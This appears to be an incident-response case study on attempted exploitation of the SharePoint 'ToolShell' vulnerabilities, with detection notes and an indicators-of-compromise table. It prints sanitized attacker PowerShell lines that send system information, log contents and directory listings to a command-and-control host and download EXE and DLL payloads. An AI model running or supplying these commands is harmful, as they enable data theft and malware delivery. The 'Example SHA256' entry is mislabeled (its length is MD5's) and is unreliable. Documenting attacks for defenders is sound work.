 # Case Study 001 - SharePoint ToolShell Exploitation Attempt (CVE-2025-49706, CVE-2025-53770, CVE-2025-49704)

> - **Severity:** High
> - **Date:** July 2025
> - **Framework:** MITRE ATT&CK - T1190 Exploit Public-Facing Application


## Overview
The SharePoint ToolShell vulnerabilities include a chain of critical flaws disclosed in 2025.

- **[CVE-2025-49706](https://nvd.nist.gov/vuln/detail/CVE-2025-49706 "https://nvd.nist.gov/vuln/detail/CVE-2025-49706")** allows attackers to bypass authentication mechanisms.
- **[CVE-2025-49704](https://nvd.nist.gov/vuln/detail/CVE-2025-49704 "https://nvd.nist.gov/vuln/detail/CVE-2025-49704")** enables arbitrary file writes, which can be leveraged to achieve remote code execution without valid credentials.
- Two additional variants, **CVE-2025-53771** (derived from CVE-2025-49706) and [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770 "https://nvd.nist.gov/vuln/detail/CVE-2025-53770") (derived from CVE-2025-49704), were later identified through fuzzing research.

Together, these vulnerabilities present a high-risk attack surface where unauthenticated adversaries can gain full control of vulnerable SharePoint instances.

## Detection & Analysis
- Initial alert triggered in **Stellar Cyber XDR** (High Severity).
- **Correlated telemetry:** Microsoft Defender for Endpoint indicated `w3wp.exe` (IIS worker) spawning PowerShell and `cmd.exe` processes consistent with post-exploit activity.

#### Observed command patterns (sanitized):
 ``` 
 # Data-exfil / reconnaissance via HTTP POST
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(systeminfo)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(whoami)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(type C:\ProgramData\defender.log)
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(dir C:\Users\[SERVICE_ACCOUNT]\AppData\Local\)

# Artifact download / drop
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/1 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\SPDesk.exe
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/2 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\log.dll
powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_IP]:10888/3 -OutFile C:\Users\[SERVICE_ACCOUNT]\AppData\Local\Product.Wsc.dll

# Backgrounding / chained command examples (sanitized)
cmd.exe /c powershell.exe -C Invoke-WebRequest -Uri hxxp://[C2_DOMAIN]/... -Method POST -Body $(appcmmd list sites) &
cmd.exe /c ping -n 1 google.com
 ```


## Analysis Summary
- Command patterns show **three clear attacker behaviours**: (1) reconnaissance / local information collection (e.g., `systeminfo`, `whoami`, directory listings), (2) exfiltration of collected data via HTTP POST to remote host(s), and (3) downloading and writing executable and DLL artifacts into a web-app context (`AppData\Local`) — consistent with attempts to achieve **RCE / persistence** in a SharePoint web directory.
    
- Several requests used plain HTTP (no TLS) and predictable endpoints, indicating opportunistic PoC-style weaponization.
    
- Encoded or obfuscated payloads (e.g., `-enc` / `-EncodedCommand`) were observed in related alerts (patterned as `powershell.exe -enc ...`), suggesting attempts to evade simple detection.

## Indicators of Compromise (IOCs)

> Suspicious activity consistent with potential exploitation of a SharePoint vulnerability was observed on a SharePoint host. Multiple alerts reported unusual DLL and ASPX files being deployed within the SharePoint web directory, indicating possible remote code execution (RCE).

| Type       | Value / Pattern                                                                                               | Notes / Context                                          |
| ---------- | ------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------- |
| IP Address | `45.136.197.24`                                                                                               | Observed serving payloads over HTTP on TCP port 10888    |
| IP Address | `179.43.141.208`                                                                                              | Observed connecting from external host                   |
| IP Address | `38.47.124.201`                                                                                               | Observed connecting from external host                   |
| Domains    | `hxxp://mpf1oyds.requestrepo[.]com`, `hxxp:trryuphx.requestrepo[.]com`, `hxxp:cdn-chromos.s3.amazonaws[.]com` | Command-and-control / exfil endpoint                     |
| File Hash  | `d41d8cd98f00b204e9800998ecf8427e`                                                                            | Example SHA256                                           |
| Process    | `w3wp.exe → powershell.exe`                                                                                   | IIS worker spawning PowerShell (parent→child execution)  |
| File Path  | `C:\Users\[SERVICE_ACCOUNT]\AppData\Local\*.dll`                                                              | Dropped DLLs/EXEs written into service account local dir |
| URL        | `hxxp://[C2_DOMAIN]/<path>`                                                                                   | Exploit/delivery endpoints; use `hxxp` for safe sharing  |

